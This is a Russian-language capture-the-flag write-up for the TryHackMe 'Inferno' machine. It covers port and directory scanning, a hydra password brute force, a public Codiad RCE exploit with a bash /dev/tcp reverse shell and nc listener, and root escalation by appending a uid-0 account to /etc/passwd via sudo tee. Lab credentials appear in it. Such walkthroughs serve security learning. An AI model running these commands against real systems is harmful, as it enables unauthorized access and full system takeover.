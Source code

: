 # Inferno

:white_check_mark:  [**Hydra get request**](#hydra)

:white_check_mark: [**Codiad exploit**](#codiad)

:white_check_mark: [**Openssl user creating**](#openssl)

:white_check_mark: [**Tee(privesc)**](#tee)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV inferno.thm
```

```
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  tcpwrapped    syn-ack
22/tcp    open  ssh           syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d7:ec:1a:7f:62:74:da:29:64:b3:ce:1e:e2:68:04:f7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBR1uDh8+UHIoUl3J5AJApSgrmxFtvWtauxjTLxH9B5s9E0SThz3fljXo7uSL+2hjphfHyqrdAxoCGQJgRn/o5xGDSpoSoORBIxv1LVaZJlt/eIEhjDP48NP9l/wTRki9zZl5sNVyyyy/lobAj6BYH+dU3g++2su9Wcl0wmFChG5B2Kjrd9VSr6TC0XJpGfQxu+xJy29XtoTzKEiZCoLz3mZT7UqwsSgk38aZjEMKP9QDc0oa5v4JmKy4ikaR90CAcey9uIq8YQtSj+US7hteruG/HLo1AmOn9U3JAsVTd4vI1kp+Uu2vWLaWWjhfPqvbKEV/fravKSPd0EQJmg1eJ
|   256 de:4f:ee:fa:86:2e:fb:bd:4c:dc:f9:67:73:02:84:34 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKFhVdH50NAu45yKvSeeMqyvWl1aCZ1wyrHw2MzGY5DVosjZf/rUzrdDRS0u9QoIO4MpQAvEi7w7YG7zajosRN8=
|   256 e2:6d:8d:e1:a8:d0:bd:97:cb:9a:bc:03:c3:f8:d8:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAdzynTIlsSkYKaqfCAdSx5J2nfdoWFw1FcpKFIF8LRv
23/tcp    open  tcpwrapped    syn-ack
25/tcp    open  tcpwrapped    syn-ack
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http          syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dante's Inferno
88/tcp    open  tcpwrapped    syn-ack
106/tcp   open  pop3pw?       syn-ack
110/tcp   open  tcpwrapped    syn-ack
389/tcp   open  tcpwrapped    syn-ack
464/tcp   open  tcpwrapped    syn-ack
636/tcp   open  tcpwrapped    syn-ack
777/tcp   open  tcpwrapped    syn-ack
783/tcp   open  tcpwrapped    syn-ack
808/tcp   open  ccproxy-http? syn-ack
873/tcp   open  tcpwrapped    syn-ack
1001/tcp  open  webpush?      syn-ack
1236/tcp  open  tcpwrapped    syn-ack
1300/tcp  open  tcpwrapped    syn-ack
2000/tcp  open  tcpwrapped    syn-ack
2003/tcp  open  tcpwrapped    syn-ack
2121/tcp  open  tcpwrapped    syn-ack
2601/tcp  open  tcpwrapped    syn-ack
2602/tcp  open  tcpwrapped    syn-ack
2604/tcp  open  tcpwrapped    syn-ack
2605/tcp  open  tcpwrapped    syn-ack
2607/tcp  open  tcpwrapped    syn-ack
2608/tcp  open  tcpwrapped    syn-ack
4224/tcp  open  tcpwrapped    syn-ack
5051/tcp  open  tcpwrapped    syn-ack
5432/tcp  open  tcpwrapped    syn-ack
5555/tcp  open  tcpwrapped    syn-ack
5666/tcp  open  tcpwrapped    syn-ack
6346/tcp  open  tcpwrapped    syn-ack
6566/tcp  open  tcpwrapped    syn-ack
6667/tcp  open  tcpwrapped    syn-ack
|_irc-info: Unable to open connection
8021/tcp  open  tcpwrapped    syn-ack
8081/tcp  open  tcpwrapped    syn-ack
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?   syn-ack
9418/tcp  open  tcpwrapped    syn-ack
10000/tcp open  tcpwrapped    syn-ack
10082/tcp open  tcpwrapped    syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **inferno.thm** выглядит так:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/1.png)

Сканируем директории командой:
```
gobuster dir -u http://inferno.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://inferno.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/20 16:00:18 Starting gobuster in directory enumeration mode
===============================================================
/inferno              (Status: 401) [Size: 458]
```

Перейдем в директорию **/inferno**. Появляется окно авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/2.png)

<a name="hydra"></a>

При помощи утилиты **hydra** попробует перебрать пароля для стандартных имен пользователей. Попробуем имя пользователя "admin"
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f inferno.thm http-get /inferno/ -t 64
```

```
[80][http-get] host: inferno.thm   login: admin   password: <REDACTED>
```

Вводим найденные учетные данные. Нас перекидывает на другую страницу авторизации. Попробуем те же данные(admin:dante1).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/3.png)

<a name="codiad"></a>

Получаем панель админа.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/4.png)

## Getting shell

Попробуем найти в интернете эксплоит для **codiad**. Скачаем [эксплоит](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit) и проэксплуатируем.
```
python exploit.py http://admin:dante1@inferno.thm/inferno/ admin dante1 <Твой IP> <Порт> linux
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/5.png)

Для того, чтобы получить оболочку нужно использовать еще две команды, которые нам предлагает ввести эксплоит.
```
echo 'bash -c "bash -i >/dev/tcp/<Твой ip>/<Твой порт> 0>&1 2>&1"' | nc -lvnp <Твой порт>

nc -lvnp <(Твой порт) + 1>
```

Получаем оболочку, стабилизируем ее.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/6.png)

В домашней директории пользователя находит интересный файл **/home/dante/Downloads/.download.dat**. В нем лежит зашифрованный текст. Расшифруем его с помощью [Cyberchef](https://gchq.github.io/CyberChef/). Получим текст, в котором лежит пароль от пользователя.
```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

## Getting root
<a name="tee"></a>

Подключаемся по shh. Посмотрим права пользователя командой **sudo -l**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Inferno/7.png)

```
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```

На [GTFOBins](https://gtfobins.github.io/gtfobins/tee/) найдем нужный эксплоит.

```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```

<a name="openssl"></a>

Модифицируем его. Для начала, создадим нового пользователя и впишем его в **/etc/passwd**.
```
openssl passwd -1 -salt toor toor

$1$toor$2SrtV0M1RHrAj9uQL5C7w/
```

Модифицированный эксплоит:
```
echo "toor:\$1\$toor\$2SrtV0M1RHrAj9uQL5C7w/:0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
```

Заходим под нового пользователя.
```
su toor
```

Получаем флаг.
